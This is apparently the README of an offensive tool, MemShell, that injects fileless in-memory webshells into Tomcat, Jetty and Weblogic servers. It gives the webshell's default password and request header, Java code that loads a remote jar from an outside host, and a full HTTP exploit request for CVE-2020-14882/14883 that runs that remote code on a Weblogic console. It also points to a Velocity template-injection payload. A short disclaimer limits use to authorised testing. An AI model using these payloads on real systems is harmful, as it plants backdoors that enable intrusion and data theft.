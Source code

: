 # MemShell
## 免责声明

本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!
严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!

## 使用场景

冰蝎默认密码`Crilwa`，添加请求头`D0g3:xxx`

1. 代码执行，例如可以调用`URLClassLoader`远程加载类，便可以无文件落地注入内存马。

   目前支持：

   - Tomcat6789回显，Tomcat6789冰蝎马
   - Jetty回显，Jetty冰蝎马
   - Weblogic冰蝎马

2. JavaAgent注入（需要文件落地，暂时只支持linux，目前没有实现冰蝎payload，只支持Tomcat回显）

### 核心代码

```java
java.net.URLClassLoader u = new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://192.168.220.1:8000/MemShell-1.0-SNAPSHOT.jar")});
u.loadClass("Inject.WeblogicInjectFilterShell").newInstance();
u.close();
```

事实上就是通过`URLClassLoader`进行远程类加载，优点是内存马代码编写方便，payload构造简单，缺点是不出网。

通过寻找通用组件的`defineClass`可以解决不出网的问题，比如 BCEL ，但是payload一方面是体积大，一方面是构造较为困难，这里不做深入。

目前支持的注入模块：

![image-20230317112252866](images/image-20230317112252866.png)

### CVE-2020-14882&CVE-2020-14883

例如下面的payload，可以进行代码执行，加载远程恶意代码。

```http
GET /console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.net.URLClassLoader u = new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://192.168.220.1:8000/MemShell-1.0-SNAPSHOT.jar")});u.loadClass("Inject.WeblogicInjectFilterShell").newInstance(); u.close();"); HTTP/1.1
```

![](images/B5RFR1$H]VU@5{(@)]8}30B.png)

![image-20230301151252935](images/image-20230301151252935.png)

### Velocity模板注入

通常使用Velocity模板注入都是进行反弹shell，代码构造比较复杂，不过理论上能够代码执行都可以写内存马，这边我写了Velocity模板注入的相关[payload](https://github.com/cri1wa/MemShell/blob/main/poc/velocity.vm)，可以供给参考。

本地搭建Jetty项目，使用Velocity模板注入注入Jetty内存马

![image-20230317120708186](images/image-20230317120708186.png)

![image-20230317152109671](images/image-20230317152109671.png)

